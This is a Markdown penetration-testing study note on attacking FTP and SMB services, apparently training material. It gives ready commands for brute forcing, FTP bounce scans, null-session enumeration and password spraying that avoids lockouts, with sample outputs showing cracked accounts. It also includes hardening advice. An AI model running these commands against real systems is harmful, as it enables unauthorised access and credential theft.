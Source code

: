 # 🛠️ Attacking Common Services  
*In the vast networked domains, familiar services stand as both guardians and unwitting gateways to the abyss. This module guides the adept through the ritual of enumerating and probing these common sentinels, unveiling hidden weaknesses and ancient vulnerabilities ripe for exploitation.*

> *“Every open port is a whisper in the dark, waiting to be answered.”*

---

<details>
<summary><h1>📢 Introduction</h1></summary>

Vulnerabilities are often discovered by individuals who deeply understand a technology, protocol, or service. As we progress in this field, we will encounter a variety of services to interact with, requiring us to **continuously adapt and learn new technologies**.

To successfully attack a service, we must understand **its purpose, how to interact with it, which tools are available, and the potential actions we can perform**.

This section will explore **common services** and demonstrate practical ways to interact with them effectively.

<details>
<summary><h3>File Share Services</h3></summary>

A file-sharing service is a system that facilitates, manages, and monitors the transfer of computer files. Historically, organizations relied primarily on internal file-sharing protocols such as **SMB**, **NFS**, **FTP**, **TFTP**, and **SFTP**. However, with the widespread adoption of cloud technologies, many companies now also use **third-party cloud-based** solutions like **Dropbox**, **Google Drive**, **OneDrive**, **SharePoint**, and cloud storage services such as **AWS S3**, **Azure Blob Storage**, and **Google Cloud Storage**.

In practice, we will often encounter a hybrid environment where both internal and external file-sharing systems are in use. For example, a server may host internal SMB shares while also synchronizing data with cloud storage.

This section will focus primarily on **internal file-sharing services**, although the same principles can apply to cloud storage solutions that are synced locally to servers and workstations.

</details>

<details>
<summary><h3>Server Message Block (SMB)</h3></summary>

**SMB** is a network file-sharing protocol most commonly used in **Windows environments**. It enables users and applications to read, write, and manage files on remote servers as if they were local. In a Windows network, it is common to find **shared folders** accessible over SMB, often used for collaboration or centralized file storage.

We can interact with SMB shares through:
* **Graphical User Interface (GUI)** – e.g., Windows File Explorer.
* **Command-Line Interface (CLI)** – e.g., `net use`, `dir`, or PowerShell commands in Windows; `smbclient` in Linux.
* **Specialized tools** – e.g., Impacket scripts, CrackMapExec, enum4linux.

The following sections will outline common methods for accessing and interacting with SMB from both Windows and Linux systems.

<details>
<summary><h3>Windows</h3></summary>

<details>
<summary><h4>GUI Method</h4></summary>

**Step 1: Open the Run Dialog Box**

Press `WINKEY` + `R` on your keyboard.

**Step 2: Enter the SMB Share Path**

In the Run dialog box, type the file share location in the following format:

```cmd
\\<IP>\<SHARE_NAME>
```

**Step 3: Authenticate if required**

If prompted, enter valid username and password credentials for the remote system.

**Step 4: Browse the Share**

Once connected, you can view, copy, edit, or delete files according to your permissions.

</details>

<details>
<summary><h4>Windows CMD - DIR</h4></summary>

The command dir displays a list of a directory's files and subdirectories.

**Run the `dir` command on the share**

```cmd
dir  \\<IP>\<SHARE_NAME>
```

**Example Output:**

```cmd
C:\tom> dir \\192.168.220.129\Finance\

Volume in drive \\192.168.220.129\Finance has no label.
Volume Serial Number is ABCD-EFAA

Directory of \\192.168.220.129\Finance

02/23/2022  11:35 AM    <DIR>          Contracts
               0 File(s)          4,096 bytes
               1 Dir(s)  15,207,469,056 bytes free
```

</details>

<details>
<summary><h4>Windows CMD - Net Use</h4></summary>


**OPTION 1 > Step 1: Use `net use` to connect to the share**

```cmd
net use n: \\<IP>\<SHARE_NAME>
```

**OPTION 2 > Step 1: Use `net use` and provide a username and password to authenticate to the share**

```cmd
net use n: \\<IP>\<SHARE_NAME> /user:<USER> <PASSWORD>
```

With the shared folder mapped as the `n` drive, we can execute Windows commands as if this shared folder is on our local computer. Let's find how many files the shared folder and its subdirectories contain.

**Step 2: Find how many files the shared folder and its subdirectories contain.**

```cmd
dir n: /a-d /s /b | find /c ":\"
```

</details>

<details>
<summary><h4>Windows PowerShell - Get-ChildItem</h4></summary>

**Run the `Get-ChildItem` command on the share**

```powershell
Get-ChildItem \\<IP>\<SHARE_NAME>
```

**Example Output:**

```powershell
# PS C:\tom> Get-ChildItem \\192.168.220.129\Finance\

#     Directory: \\192.168.220.129\Finance

# Mode                 LastWriteTime         Length Name
# ----                 -------------         ------ ----
# d-----         2/23/2022   3:27 PM                Contracts
```

</details>

<details>
<summary><h4>Windows PowerShell - New-PSDrive</h4></summary>

**OPTION 1 > Step 1: Map the shared folder to a drive letter using `New-PSDrive`**

```powershell
New-PSDrive -Name "N" -Root "\\<IP>\<SHARE_NAME>" -PSProvider "FileSystem"
```

**OPTION 2 > Step 1: Provide a username and password with Powershell to map the shared folder to a drive letter using `New-PSDrive`**

```powershell
$username = '<USER>'
$password = '<PASWORD>'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\<IP>\<SHARE_NAME>" -PSProvider "FileSystem" -Credential $cred
```

**Example Output:**

```powershell
# Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
# ----           ---------     --------- --------      ----                                               ---------------
# N                                      FileSystem    \\192.168.220.129\Finance
```

**Step 2: Find how many files the shared folder and its subdirectories contain.**

```powershell
N:
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

</details>

</details>

<details>
<summary><h3>Linux</h3></summary>

Linux (UNIX) machines can also browse and mount SMB shares. This works whether the target server is a **Windows machine** or a **Samba server**. While some Linux distributions include GUI support, we will focus on using **command-line utilities** and tools to interact with SMB.

> **NOTE:** We need to install `cifs-utils` to connect to an SMB share folder. To install it we can execute from the command line `sudo apt install cifs-utils`.

<details>
<summary><h4>Linux - Mount</h4></summary>

**OPTION 1 > Step 1: Mount an SMB share to interact with its directories and files locally**

```bash
sudo mkdir /mnt/<SHARE_NAME>
sudo mount -t cifs -o username=<USER>,password=<PASWORD>,domain=. \\<IP>\<SHARE_NAME>
```

**OPTION 1 > Step 2: Use a credential file to mount an SMB share to interact with its directories and files locally**

```bash
sudo mkdir /mnt/<SHARE_NAME>
sudo mount -t cifs \\<IP>\<SHARE_NAME> /mnt/<SHARE_NAME> -o credentials=./credential_file.txt
```

The file `credential_file.txt` has to be structured like this:

```txt
username=plaintext
password=Password123
domain=.
```

</details>

</details>

</details>

<details>
<summary><h3>Command Line Utilities</h3></summary>

<details>
<summary><h4>Linux - SQSH</h4></summary>

The `sqlcmd` utility lets you enter Transact-SQL statements, system procedures, and script files through a variety of available modes:

* At the command prompt.
* In Query Editor in SQLCMD mode.
* In a Windows script file.
* In an operating system (Cmd.exe) job step of a SQL Server Agent job.

```bash
sqsh -S <IP> -U <USER> -P <PASSWORD>
```

</details>

<details>
<summary><h4>Linux - SQLCMD</h4></summary>

```bash
sqlcmd -S <IP> -U <USER> -P <PASSWORD>
```

</details>

<details>
<summary><h4>Linux - MySQL</h4></summary>

**Start an interactive SQL Session using Linux**

```bash
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

<details>
<summary><h4>Windows - MySQL</h4></summary>

**Start an interactive SQL Session using Windows**

```bash
mysql.exe -u <USER> -p<PASSWORD> -h <IP>
```

</details>

</details>

<details>
<summary><h3>Tools to Interact with Common Services</h3></summary>

| **SMB**        | **FTP**      | **Email**                       | **Databases**                               |
|----------------|-------------|----------------------------------|---------------------------------------------|
| smbclient      | ftp         | Thunderbird                     | mssql-cli                                   |
| CrackMapExec   | lftp        | Claws                           | mycli                                       |
| SMBMap         | ncftp       | Geary                           | mssqlclient.py                              |
| Impacket       | filezilla   | MailSpring                      | dbeaver                                     |
| psexec.py      | crossftp    | mutt                            | MySQL Workbench                             |
| smbexec.py     |             | mailutils                       | SQL Server Management Studio (SSMS)        |
|                |             | sendEmail                       |                                             |
|                |             | swaks                           |                                             |
|                |             | sendmail                        |                                             |

</details>

<details>
<summary><h3>General Troubleshooting</h3></summary>

Depending on the **Windows** or **Linux** version we are working with or targeting, we may face various challenges when trying to connect to a service.

Common reasons for **lack of access** to a resource include:

* Authentication issues
* Insufficient privileges
* Network connectivity problems
* Firewall restrictions
* Unsupported protocols

Errors may vary depending on the specific service targeted. It’s important to leverage these **error codes** by consulting official documentation or community forums, where solutions to similar problems can often be found.

</details>

You can refer to the [GENERAL](./00-general.md) module to find different ways to explore and list files.

</details>

---

<details>
<summary><h1>🎯 Protocol Specific Attacks</h1></summary>

<details>
<summary><h2>The Concept of Attacks</h2></summary>

To effectively understand attacks on different services, we need to examine **how these services can be targeted**. A concept is a general plan or framework applied across various projects. For example, consider the concept of building a house: most houses have a basement, four walls, and a roof. While the specific materials or designs may vary, the basic structure remains consistent worldwide. This illustrates that a concept requires general categories—like floors, walls, and roof—that provide a flexible but unified framework.

In our context, we need to develop a concept for attacking various services by grouping them into categories that summarize all services while still allowing for individual attack methods.

To clarify, we can try grouping services like **SSH**, **FTP**, **SMB**, and **HTTP** and identify what they have in common. From there, we can build a structure or pattern that helps us pinpoint attack vectors across these services using a single, unified approach.

This process of analyzing commonalities and creating adaptable attack pattern templates is ongoing—it’s not a finished product but an evolving framework that grows and improves over time.

The concept is structured around four categories that appear in every vulnerability:

<details>
<summary><h3>1. Source</h3></summary>

We can generalize **Source** as the origin of information used by a process to perform a specific task. Information can be passed to a process in many different ways.

| Information Source | Description                                                                                                           |
|--------------------|-----------------------------------------------------------------------------------------------------------------------|
| Code               | The results of already executed program code used as a source of information. These can come from different functions of a program. |
| Libraries          | A collection of program resources, including configuration data, documentation, help data, message templates, prebuilt code and subroutines, classes, values, or type specifications. |
| Config             | Usually static or prescribed values that determine how the process handles information.                              |
| APIs               | Application Programming Interfaces used as program interfaces for retrieving or providing information.               |
| User Input         | Manual entry of information by a person, when a program allows user input to process data accordingly.               |

The Source is the origin exploited to trigger vulnerabilities. The specific protocol used is irrelevant—for example, HTTP header injections can be manipulated manually, just like buffer overflows.

</details>

<details>
<summary><h3>2. Process</h3></summary>

The **Process** refers to how information received from the Source is handled. This processing is carried out according to the task defined by the program code. For each task, developers specify how information should be processed—using classes, functions, calculations, loops, and more. Since development approaches vary widely, the possibilities are nearly endless. Consequently, most vulnerabilities stem from flaws in the program code executed during this process.

| Process Components | Description                                                                                                          |
|--------------------|----------------------------------------------------------------------------------------------------------------------|
| PID                | The Process ID (PID) identifies the process being started or already running. Running processes have assigned privileges, and new ones are started accordingly. |
| Input              | Refers to information input assigned either by a user or resulting from a programmed function.                       |
| Data processing    | The hard-coded functions of a program that dictate how the received information is processed.                         |
| Variables          | Placeholders for information that different functions can further process during the task.                           |
| Logging            | The documentation of certain events, often stored in a register or file, meaning some information remains in the system. |

</details>

<details>
<summary><h3>3. Privileges</h3></summary>

**Privileges** exist in all systems that manage processes. They act like permissions that determine which tasks and actions can be performed. Simply put, privileges are like a bus ticket: if you have a ticket for a specific region, you can ride the bus; if not, you cannot.

Similarly, privileges (or “tickets”) can apply to various modes of transport—planes, trains, boats, and so on. In computer systems, privileges control and segment actions, requiring different permissions that the system enforces.

When a process attempts to perform a task, the system checks if it has the necessary privileges. If the required permissions and conditions are met, the system approves the requested action.

| Privileges | Description                                                                                                          |
|------------|----------------------------------------------------------------------------------------------------------------------|
| System     | These are the highest privileges allowing any system modification. In Windows, this is called SYSTEM; in Linux, root. |
| User       | Permissions assigned to a specific user. For security, Linux often creates separate users for specific services.     |
| Groups     | Categorization of users who share certain permissions to perform specific actions.                                    |
| Policies   | Determine execution of application-specific commands, applying to individual or grouped users and their actions.      |
| Rules      | Permissions to perform actions managed within the applications themselves.                                           |

</details>

<details>
<summary><h3>4. Destination</h3></summary>

Every task has at least one purpose or goal that must be fulfilled. If data changes were neither stored nor forwarded, the task would generally be unnecessary. The outcome of a task is either stored locally or forwarded to another processing point.

This endpoint is called the **Destination**, where the data changes occur. Destinations can be either local or remote processes. At the local level, files or records may be modified, or data may be forwarded to other local services for further use. However, the same process may also reuse the resulting data.

Once the data is stored or forwarded, the cycle of the task is complete.

| Destination | Description                                                                                                               |
|-------------|---------------------------------------------------------------------------------------------------------------------------|
| Local       | The local area refers to the system environment where the process occurred. Results are either further processed or stored locally. |
| Network     | The network area involves forwarding process results to a remote interface, such as an IP address, its services, or entire networks. Under some circumstances, these results can also influence routing. |

</details>

> **NOTE:** While these categories are consistent across services, the specific details within each may vary depending on the service.

We now have a repeatable pattern template that can be applied to attacks. This template helps analyze and understand exploits, and it is useful for debugging our own exploits during development and testing. Additionally, it can be applied to source code analysis, enabling step-by-step review of specific functionalities and commands. Lastly, this approach allows us to evaluate the risks associated with each task individually.

</details>

<details>
<summary><h2>Service Misconfigurations</h2></summary>

Misconfigurations occur when system administrators, technical support, or developers incorrectly set up the security framework of an application, website, desktop, or server. This often creates vulnerable pathways that unauthorized users can exploit.

<details>
<summary><h3>Authentication</h3></summary>

In previous years—and occasionally even today during assessments—it was common for services to come with default credentials (username and password). This poses a significant security risk because many administrators fail to change these defaults.

Nowadays, most software requires users to set up credentials during installation, which is an improvement. However, default credentials can still be found, especially in older applications.

Even if there are no default credentials, administrators might use weak or no passwords initially, intending to change them later, which creates vulnerabilities.

To prevent this, administrators should define and enforce strong password policies for all software deployed or tested within their environment.

<details>
<summary><h4>Anonymous Authentication</h4></summary>

Another common misconfiguration is **anonymous authentication**. When enabled, the service allows anyone with network access to connect without requiring credentials, creating a serious security risk.

</details>

<details>
<summary><h4>Misconfigured Access Rights</h4></summary>

**Misconfigured access rights** occur when user accounts are granted incorrect permissions. A significant risk arises when individuals lower in the organizational hierarchy gain access to sensitive information intended only for managers or administrators.

</details>

</details>

<details>
<summary><h3>Unnecessary Defaults</h3></summary>

The initial configuration of devices and software often includes default settings, features, files, and credentials. These defaults are usually designed for ease of use rather than security. Leaving these defaults unchanged is a poor security practice, especially in production environments. Unnecessary default settings should be modified to reduce the system’s attack surface.

Accepting default settings during setup can expose sensitive company information. Attackers may exploit default credentials or weak settings with minimal effort, sometimes just by a quick internet search.

**[Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)** is listed in the **[OWASP Top 10](https://owasp.org/Top10/)**. Common issues related to default values include:
* Unnecessary features enabled or installed (e.g., open ports, unused services, default pages, accounts, or privileges).
* Default accounts and passwords remain enabled and unchanged.
* Error handling exposes stack traces or overly detailed error messages to users.
* On upgraded systems, new security features are disabled or improperly configured.

</details>

<details>
<summary><h3>Preventing Misconfiguration</h3></summary>

Once we understand our environment, the most effective way to control risk is to lock down critical infrastructure and allow only necessary behaviors. Any communication or service not required by the application should be disabled. Examples include:

* Disabling admin interfaces when not in use.
* Turning off debugging features.
* Disabling default usernames and passwords.
* Configuring servers to prevent unauthorized access, directory listing, and related issues.
* Running regular scans and audits to detect misconfigurations or missing patches.

The **OWASP Top 10** includes guidance on securing installation processes, emphasizing the importance of a repeatable hardening process:

* Use a consistent hardening procedure to quickly and easily deploy secure environments.
* Configure development, QA, and production environments identically but with different credentials per environment.
* Automate this process to minimize setup effort and errors.

Other best practices include:

* Maintain a minimal platform by removing or not installing unnecessary features, components, documentation, and sample code.
* Regularly review and update configurations to apply security notes, updates, and patches (see A06:2021 - Vulnerable and Outdated Components). Also, review cloud storage permissions, such as S3 bucket policies.
* Implement a segmented application architecture to enforce secure separation between components or tenants via segmentation, containerization, or cloud security groups (ACLs).
* Send security directives to clients, such as appropriate security headers.
* Automate verification processes to ensure configuration effectiveness across all environments.

</details>

</details>

<details>
<summary><h2>Finding Sensitive Information</h2></summary>

When attacking a service, we act like detectives — gathering as much information as possible and carefully observing every detail. Every single piece of information can be critical.

**Example Scenario**

* Target services: Email, FTP, Databases, Storage
* Goal: Achieve Remote Code Execution (RCE) on any service
* Initial enumeration: Tried anonymous access on all services
* Outcome: Only FTP allowed anonymous access
* Found an empty file named `johnsmith` in FTP
* Tried using "johnsmith" as FTP username and password — unsuccessful
* Tried same credentials on Email service — successful login
* Searched emails for "password" and found John’s MSSQL credentials
* Accessed the MSSQL database and used built-in functions to execute commands
* Successfully gained RCE on the database server

This shows how a seemingly insignificant piece of data (the empty file `johnsmith`) can lead to discovering valuable information and achieving the ultimate goal.

**Types of Sensitive Information to Look For**

Usernames
* Email Addresses
* Passwords
* DNS Records
* IP Addresses
* Source Code
* Configuration Files
* Personally Identifiable Information (PII)

**Covered Services for Information Discovery**

* File Shares
* Email
* Databases

**Understanding What to Look For**

Every target is unique, so it’s important to:

* Understand the target’s business model, purpose, and processes
* Determine what information is valuable to the target
* Know what type of information is useful for your attack

Two key elements for finding sensitive information:

1. Understand how the service works
2. Know exactly what you are looking for

</details>

</details>

---

<details>
<summary><h1>📄 FTP</h1></summary>

The **File Transfer Protocol (FTP)** is a standard network protocol used to transfer files between computers.
It also supports file system operations such as:

* Changing the working directory
* Listing files
* Renaming files or directories
* Deleting files or directories

**Default Port:**
* TCP/21

**Common Uses**
* Moving files between systems in software development environments
* Updating or deploying website content
* Sharing large datasets within an organization

<details>
<summary><h2>Attack Vectors</h2></summary>

When targeting an FTP server, there are several possible approaches:

1. **Misconfiguration or Excessive Privileges**
    * Anonymous access enabled
    * Improper file/directory permissions
    * Sensitive files stored in publicly accessible directories

2. **Exploiting Known Vulnerabilities**
    * Outdated FTP server software
    * Weak authentication mechanisms

3. **Discovering New Vulnerabilities**
    * Protocol-specific flaws
    * Vendor-specific bugs

</details>

<details>
<summary><h2>Post-Access Actions</h2></summary>

Once access is gained, you should:

* **Enumerate the directory contents** to identify sensitive or critical files

* **Check folder structure** — FTP typically uses a hierarchical directory structure:

* **Search for sensitive files**, such as:
    * Configuration files (`config.php`, `.env`)
    * Database dumps (`backup.sql`)
    * Source code files
    * Credentials

</details>

<details>
<summary><h2>Nmap Scan</h2></summary>

**Example Command**

```bash
sudo nmap -sC -sV -p 21 <TARGET_IP>
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-sC`           | Run default NSE scripts (includes `ftp-anon`)   |
| `-sV`           | Detect service version and banner               |
| `-p 21`         | Scan only TCP port 21                           |
| `<TARGET_IP>` | Target IP address                               |

**Why This Matters**
* **Anonymous access** may expose files without authentication.
* **Version information** helps identify:
    * Known vulnerabilities
    * Possible exploits for the specific FTP server software

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

As discussed earlier, **anonymous authentication** can be enabled for services such as FTP.  
This can create serious security risks if not configured properly.

How Anonymous FTP Login Works
* **Username:** `anonymous`
* **Password:** *(empty)*

**Potential Risks**
If read/write permissions are **not** configured correctly:
* Sensitive files might be stored in folders accessible to anonymous users.
* Anyone could **download confidential data** without authentication.
* Attackers could **upload malicious scripts** to the server.

**Example Command**

```bash
ftp <TARGET_IP> <PORT>
```

**Example Output**

```bash
# Connected to <TARGET_IP>.
# 220 (vsFTPd 2.3.4)
# Name (<TARGET_IP>:kali): anonymous
# 331 Please specify the password.
# Password:
# 230 Login successful.
# Remote system type is UNIX.
# Using binary mode to transfer files.

# ftp> ls

# 200 PORT command successful. Consider using PASV.
# 150 Here comes the directory listing.
# -rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
# 226 Directory send OK.
```

</details>

<details>
<summary><h2>Brute Forcing with Medusa</h2></summary>

**Example Command: **

```bash
medusa -u <USER_LIST> -P <PASSWORD_LIST> -h <TARGET_IP> -M ftp -n <PORT>
```

**Example Output**

```bash
# Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
# ACCOUNT FOUND: [ftp] Host: <TARGET_IP> User: <USER> Password: <PASSWORD> [SUCCESS]
```

</details>

<details>
<summary><h2>FTP Bounce Attack</h2></summary>

An **FTP bounce attack** is a technique that abuses FTP servers to send network traffic to another device.  
This is achieved by manipulating the `PORT` command to make the FTP server connect to a different target.

**How It Works**

1. The attacker connects to an **FTP server** that is exposed to the internet (e.g., `FTP_DMZ`).
2. They use the `PORT` command to instruct the FTP server to interact with another host on the same internal network (e.g., `Internal_DMZ`).
3. The FTP server unknowingly **proxies requests** to the internal host.
4. This allows the attacker to:
   * Scan internal hosts
   * Identify open ports
   * Gather information for further exploitation

**Example Command**

```bash
nmap -Pn -v -n -p80 -b <USER>:<PASSWORD>@<ATTACKER_IP> <TARGET_IP>
```

**Example Output**

```bash
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
# Resolved FTP bounce attack proxy to <ATTACKER_IP> (<ATTACKER_IP>).
# Attempting connection to ftp://anonymous:password@<ATTACKER_IP>:21
# Connected: 220 (vsFTPd 3.0.3)
# Login credentials accepted by FTP server!
# Initiating Bounce Scan at 04:55
# FTP command misalignment detected ... correcting.
# Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)

# Nmap scan report for <TARGET_IP>
# Host is up.

# PORT   STATE  SERVICE
# 80/tcp open  http
```

| **Flag** | **Purpose** |
|----------|-------------|
| `-Pn`    | Skip host discovery, treat all hosts as online. |
| `-v`     | Verbose output. |
| `-n`     | Disable DNS resolution. |
| `-p80`   | Scan only TCP port 80. |
| `-b`     | Perform FTP bounce scan (`user:pass@ftp_server target_ip`). |

> **NOTE:** FTP bounce attacks are deprecated in many modern FTP servers, but vulnerable implementations still exist in outdated or misconfigured environments.

</details>

</details>

---

<details>
<summary><h1>🗃️ SMB</h1></summary>

**Server Message Block (SMB)** is a protocol for sharing files and printers across networked systems.
Originally, SMB ran on **NetBIOS over TCP/IP** (TCP 139, UDP 137–138). Since Windows 2000, it can also run directly over **TCP 445**, which modern Windows systems use by default—though NetBIOS is still supported as a fallback.

**Samba** is the open-source SMB implementation for Unix/Linux, enabling interoperability with Windows clients.

When scanning, SMB on **port 445** indicates direct TCP usage, while **port 139** usually means SMB is running over NetBIOS.

**MSRPC (Microsoft Remote Procedure Call)** can run over SMB via named pipes, allowing functions to execute remotely without dealing with low-level networking.

<details>
<summary><h2>Attack Vectors</h2></summary>

**Attacking SMB** involves identifying its version, OS, and configuration. Potential vectors include:

* **Misconfigurations/excessive privileges**
* **Known or new vulnerabilities**
* **Sensitive shared files**
* **NetBIOS/RPC enumeration** to gather intel or perform actions.

</details>

<details>
<summary><h2>Nmap Scan</h2></summary>

**Example Command**

```bash
sudo nmap <TARGET_IP> -sV -sC -p139,445
```

**Example Output**

```bash
# PORT    STATE SERVICE     VERSION
# 139/tcp open  netbios-ssn Samba smbd 4.6.2
# 445/tcp open  netbios-ssn Samba smbd 4.6.2
# MAC Address: 00:00:00:00:00:00 (VMware)

# Host script results:
# |_nbstat: NetBIOS name: RTH, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
# | smb2-security-mode: 
# |   2.02: 
# |_    Message signing enabled but not required
# | smb2-time: 
# |   date: 2021-09-19T13:16:04
# |_  start_date: N/A
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-sC`           | Run default NSE scripts (includes `ftp-anon`)   |
| `-sV`           | Detect service version and banner               |
| `-p 21`         | Scan only TCP port 21                           |
| `<TARGET_IP>` | Target IP address                               |

**Why This Matters**
* Identifies SMB version and implementation (e.g., Samba smbd 4.6.2)
* Reveals hostname and possible OS type
* Helps detect:
    * Misconfigurations (e.g., message signing disabled)
    * Potential vulnerabilities
* Provides NetBIOS details for further enumeration

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

SMB can be configured not to require authentication, which is often called a null session. Instead, we can log in to a system with no username or password.

<details>
<summary><h3>Anonymous Authentication</h3></summary>

SMB servers can allow access without requiring a username and password (null session), or we may use valid credentials if available.

* **Potential Access:** Using anonymous authentication, we can gather information such as:
    * List of file shares
    * Usernames and groups
    * Permissions and policies
    * Running services
* **Tools Supporting Null Sessions:**
    * `smbclient`
    * `smbmap`
    * `rpcclient`
    * `enum4linux`

</details>

<details>
<summary><h3>File Share</h3></summary>

**Using `smbclient`**

```bash
smbclient -N -L //<TARGET_IP>
```

**Example Output:**

```bash
# Sharename       Type      Comment
# -------         --        -------
# ADMIN$          Disk      Remote Admin
# C$              Disk      Default share
# notes           Disk      CheckIT
# IPC$            IPC       IPC Service (DEVSM)
# SMB1 disabled no workgroup available
```

---

**Using `smbmap`**

```bash
smbmap -H <TARGET_IP>
```

**Example Output:**

```bash
# [+] IP: <TARGET_IP>:445
# Disk       Permissions   Comment
# ----       -----------   -------
# ADMIN$     NO ACCESS     Remote Admin
# C$         NO ACCESS     Default share
# IPC$       READ ONLY     IPC Service (DEVSM)
# notes      READ, WRITE   CheckIT
```

**Browse Share Recursively:**

```bash
smbmap -H <TARGET_IP> -r <SHARE_NAME>
```

**Example Output:**

```bash
# [+] Guest session       IP: <TARGET_IP>:445    Name: <TARGET_IP>                           
#         Disk                                                    Permissions     Comment
#         --                                                   ---------    -------
#         notes                                                   READ, WRITE
#         .\notes\*
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    .
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    ..
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    LDOUJZWBSG
#         fw--w--w             116 Tue Apr 16 07:43:19 2019    note.txt
#         fr--r--r               0 Fri Feb 22 07:43:28 2019    SDT65CB.tmp
#         dr--r--r               0 Mon Nov  2 00:54:57 2020    TPLRNSMWHQ
#         dr--r--r               0 Mon Nov  2 00:56:51 2020    WDJEQFZPNO
#         dr--r--r               0 Fri Feb 22 07:44:02 2019    WindowsImageBackup
```

From the above example, the permissions are set to READ and WRITE, which one can use to upload and download the files.


**Download a file:**

```bash
smbmap -H <TARGET_IP> --download "notes\note.txt"
```

**Example Output:**

```bash
# [+] Starting download: notes\note.txt (116 bytes)
# [+] File output to: /rth/<TARGET_IP>-notes_note.txt
```

**Upload a file:**

```bash
smbmap -H <TARGET_IP> --upload ./test.txt "notes\test.txt"
```

**Example Output:**

```bash
# [+] Starting upload: test.txt (20 bytes)
# [+] Upload complete.
```

</details>

<details>
<summary><h3>Remote Procedure Call (RPC)</h3></summary>

RPC can be enumerated using a **null session** with `rpcclient` or automated tools like `enum4linux`.

**Using `rpcclient`**

```bash
rpcclient -U'%' <TARGET_IP>
```

**Example Output:**

```bash
rpcclient $> enumdomusers

# user:[mhope] rid:[0x641]
# user:[svc-ata] rid:[0xa2b]
# user:[svc-bexec] rid:[0xa2c]
# user:[roleary] rid:[0xa36]
# user:[smorgan] rid:[0xa37]
```

---

**Using `rpcclient`**

```bash
./enum4linux-ng.py <TARGET_IP> -A -C
```

**Example Output:**

```bash
# ENUM4LINUX - next generation

# ...

#  ====================================
# |    Service Scan on <TARGET_IP>     |
#  ====================================
# ...
# [*] Checking SMB (timeout: 5s)
# [*] SMB is accessible on 445/tcp
# [*] Checking SMB over NetBIOS (timeout: 5s)
# [*] SMB over NetBIOS is accessible on 139/tcp

#  ===================================================                            
# |    NetBIOS Names and Workgroup for <TARGET_IP>    |
#  ===================================================                                                                                         
# [*] Got domain/workgroup name: WORKGROUP
# [*] Full NetBIOS names information:
# - WIN-752039204 <00> -          B <ACTIVE>  Workstation Service
# - WORKGROUP     <00> -          B <ACTIVE>  Workstation Service
# - WIN-752039204 <20> -          B <ACTIVE>  Workstation Service
# - MAC Address = 00-0C-29-D7-17-DB
# ...
#  ========================================
# |    SMB Dialect Check on <TARGET_IP>    |
#  ========================================

# ...
```

</details>

</details>

<details>
<summary><h2>Protocol Specifics Attacks</h2></summary>

If a null session is not enabled, we will need credentials to interact with the SMB protocol. Two common ways to obtain credentials are [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack).

<details>
<summary><h3>Brute Forcing and Password Spray</h3></summary>

**Brute-Forcing**
* Attempts as many passwords as possible against a single account.
* Risk: May trigger account lockout if threshold is exceeded.
* Recommendation: Only use if the lockout threshold is known; otherwise, avoid.

**Password Spraying**
* Targets multiple usernames with a single common password.
* Safer approach to avoid account lockouts.
* Guidelines:
    * Use 2–3 password attempts per user if lockout threshold is unknown.
    * Wait 30–60 minutes between attempts.

**Using `CrackMapExec` for Password Spraying**

```bash
crackmapexec smb <TARGET_IP> -u <USER_LIST> -p '<PASSWORD>' --local-auth
```

**Example Output:**

```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\Administrator:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\admin:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\fsmith:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\tcrash:<PASSWORD> STATUS_LOGON_FAILURE 

# ...

# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\jurena:<PASSWORD> (Pwn3d!) 
```

